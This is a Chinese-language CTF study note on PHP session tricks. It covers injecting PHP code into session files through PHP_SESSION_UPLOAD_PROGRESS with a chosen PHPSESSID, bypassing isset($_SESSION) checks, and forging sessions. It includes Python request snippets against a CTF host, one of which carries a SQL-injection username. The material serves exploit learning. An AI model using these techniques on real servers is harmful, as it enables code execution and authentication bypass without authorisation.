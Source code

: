 tags:: CTF/PHP/文件上传, CTF/RCE

- # 利用session向文件中写入文件
	- php session 的 ID 是可以在 cookie 中自定义的
	- session 位置一般是`/tmp/`或者`/var/lib/php/sessions`
	- session 文件名为 sess_xxxxx, xxxxx 就是自定义的 session ID
	- 而且，在上传文件时，文件的上传状态会保存在 session 文件中。
	- 而文件的上传状态也是可以控制的
	- 所以这样就可以上传恶意文件
		- ```python
		  requests.post(
		  "http://124.71.162.7:10882/",
		  data={
		      "PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123;?>"
		  },
		  files={"file":('a.txt', io.BytesIO(b'a' * 1024 * 50))},
		  cookies={"PHPSESSID": "test"}
		  )
		  ```
	- 文件名在上面
- # 绕过isset($_SESSION)
	- 利用`isset($_SESSION)`来阻止访问template文件是不安全的。
	- 如果`php.ini`中开启了`session.upload_progress.enabled`，那么用户可以通过`PHP_SESSION_UPLOAD_PROGRESS`让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": 'bbb"||1#',
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
	- 示例：[[CTF/WP/BUUCTF/PwnThyBytes 2019 Baby_SQL]]
- # 伪造session
	- [[CTF/WP/BUUCTF/HFCTF2020 BabyUpload]]